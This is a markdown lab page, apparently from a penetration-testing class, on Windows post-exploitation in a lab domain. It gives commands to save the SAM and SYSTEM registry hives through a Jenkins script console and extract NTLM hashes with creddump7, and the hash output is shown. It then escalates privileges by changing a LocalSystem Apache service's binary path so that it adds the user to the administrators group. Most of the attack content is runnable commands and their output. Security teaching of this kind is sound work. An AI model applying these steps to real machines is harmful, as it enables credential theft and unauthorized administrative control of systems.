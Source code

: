 +++
title = "Windows PE"
weight = 1
+++

## 1. Local Password Hashes
Windows stores local user account password hashes in the Security Accounts Manager or *SAM* registry hive.  
Additionally, there is a key needed to decrypt  the encrypted hashes located in the *System* registry hive.

* Use your Jenkins script console to execute the following two commands
  * `reg.exe save hklm\sam c:\users\richard.f\xampp\sam`
  * `reg.exe save hklm\system c:\users\richard.f\xampp\sys`

![](./hash1.png)

These errors are common when using some type of web based shell to execute operating system commands via a scripting language such as Groovyscript.
The short answer is that the *\\* is being processed by the scripting interpreter as code.
You need to escape these characters by prepending them with an additional *\\* character.

![](./hash2.png)

Now run both commands with the proper character escaping and this will place a copy of the two registry hive 
files inside the xampp SMB share. You can then use smbclient to download to your attacking machine.

![](./hash3.png)

### 1.1. Extracting hashs with creddump7 
Next we'll use an oldie but a goodie, creddump, to extract the hashes from the SAM!

* Download the *.deb* package.
  *  `wget http://tw.archive.ubuntu.com/ubuntu/pool/universe/c/creddump7/creddump7_0.1+git20190429-1.1_all.deb`
* Install the package
  * `sudo dpkg -i creddump7_0.1+git20190429-1.1_all.deb` 

Now run the following command from inside the directory where you saved **sys** and **sam**.

`/usr/share/creddump7/pwdump.py sys sam > hashes.txt`

##### hashes.txt

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```

## 2. Enumerating localhost services
Sometimes (acctually lots of the time) when we get on a box we gain access to **localhost** services.  
These are services that aren't bound to **0.0.0.0** so we didn't detect them during our discovery phase.

`netstat -ant | findstr /I "listen"`

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49680          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49709          0.0.0.0:0              LISTENING       InHost
  TCP    192.168.0.130:139      0.0.0.0:0              LISTENING       InHost
  TCP    [::]:80                [::]:0                 LISTENING       InHost
  TCP    [::]:135               [::]:0                 LISTENING       InHost
  TCP    [::]:443               [::]:0                 LISTENING       InHost
  TCP    [::]:445               [::]:0                 LISTENING       InHost
  TCP    [::]:3389              [::]:0                 LISTENING       InHost
  TCP    [::]:5985              [::]:0                 LISTENING       InHost
  TCP    [::]:8080              [::]:0                 LISTENING       InHost
  TCP    [::]:47001             [::]:0                 LISTENING       InHost
  TCP    [::]:49664             [::]:0                 LISTENING       InHost
  TCP    [::]:49665             [::]:0                 LISTENING       InHost
  TCP    [::]:49666             [::]:0                 LISTENING       InHost
  TCP    [::]:49667             [::]:0                 LISTENING       InHost
  TCP    [::]:49680             [::]:0                 LISTENING       InHost
  TCP    [::]:49695             [::]:0                 LISTENING       InHost
  TCP    [::]:49709             [::]:0                 LISTENING       InHost
  ```

Although we can see that *80* and *443* are bound to **0.0.0.0**, those ports didn't show up on our nmap scan.
Likely due to Windows Defender firewall rules.

If we browse to one of those ports on **127.0.0.1** we can see it appears to be Apache packaged up with XAMPP.

![](./apache1.png)

* What is the name of the service?
  *  `sc query | findstr /I "apache"`

      ```
      SERVICE_NAME: Apache2.4
      DISPLAY_NAME: Apache2.4
      ```
* What is the binary path executed when the service starts?
  *  `sc qc apache2.4`

      ```
      [SC] QueryServiceConfig SUCCESS

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              START_TYPE         : 2   AUTO_START
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : "C:\users\richard.f\xampp\apache\bin\httpd.exe" -k runservice
              LOAD_ORDER_GROUP   :
              TAG                : 0
              DISPLAY_NAME       : Apache2.4
              DEPENDENCIES       : Tcpip
                                 : Afd
              SERVICE_START_NAME : LocalSystem

      ```
The binary executable is located inside the SMB share we have read/write to as "richard.f".  The service is configured 
to run with *LocalSystem* privileges.  Assuming our user has permissions to start and stop the service, we should be 
able to replace *httpd.exe* with a binary of our choosing and elevate our privileges to *LocalSystem*

* Can we stop the service?
  *  `sc query apache2.4`
      ```

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              STATE              : 4  RUNNING
                                      (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
              WIN32_EXIT_CODE    : 0  (0x0)
              SERVICE_EXIT_CODE  : 0  (0x0)
              CHECKPOINT         : 0x0
              WAIT_HINT          : 0x0

      ```

It says it accepts shutdown, try it.

`sc stop "apache2.4"`

## 3. Privilege escalation via misconfigured Windows service:w

Now you can use *sc* to set a new binary path.  This could be a path to a reverse shell executable assuming you've got 
one that bypasses the target's EDR.  For a simpler approach, try this.

`sc config apache2.4 binpath= "cmd.exe /c net localgroup administrators sciencerocks\richard.f /add"`

```bash
[SC] ChangeServiceConfig SUCCESS
```

*  Double check the local administrators group first.
` net localgroup administrators`

```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
SCIENCEROCKS\Domain Admins
SCIENCEROCKS\server.admin
The command completed successfully.


C:\Users\richard.f>
```

* Now start the service to add *richard.f* to the group.
`sc start apache2.4`

```
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


C:\Users\richard.f>
```

Oh no an ERROR!, but don't worry, check the local administrators group again :)

![](./privesc1.png)

## 4. Additional privilege escalation resources

Here are some suplimental resources for you to read through outside of class.

* [Fantastic Markdown cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [FuzzySecurity Windows Priv. Esc. Fundimentals](https://fuzzysecurity.com/tutorials/16.html)
* [Windows Priv. Esc. by Joseph Carson](https://delinea.com/blog/windows-privilege-escalation)

